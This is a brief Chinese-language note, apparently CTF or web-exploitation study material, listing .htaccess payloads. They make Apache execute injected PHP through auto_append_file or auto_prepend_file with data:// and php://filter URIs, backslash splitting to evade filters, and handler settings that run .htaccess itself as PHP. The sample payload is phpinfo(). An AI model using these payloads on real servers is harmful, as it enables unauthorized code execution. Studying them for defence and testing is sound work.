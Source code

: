 ```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
或
php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
或
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.txt"
```

## htaccess把自己指定当做 php文件处理

### 当前目录下有php文件

```php
php_value auto_append_file .htaccess
#<?php phpinfo();
```

对于有过滤的情况我们前面说了可以使用\号

```php
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

### 当前目录下无php文件

重点：需要先设置允许可访问 .htaccess 文件

```php
<Files .htaccess>
//ForceType application/x-httpd-php
SetHandler application/x-httpd-php
Require all granted
php_flag engine on
</Files>
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

或

```php
<FilesMatch .htaccess>
//ForceType application/x-httpd-php
SetHandler application/x-httpd-php
Require all granted
php_flag engine on
</FilesMatch>
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();
```

或 将 .htaccess指定当做 php文件处理，一般不用这个感觉
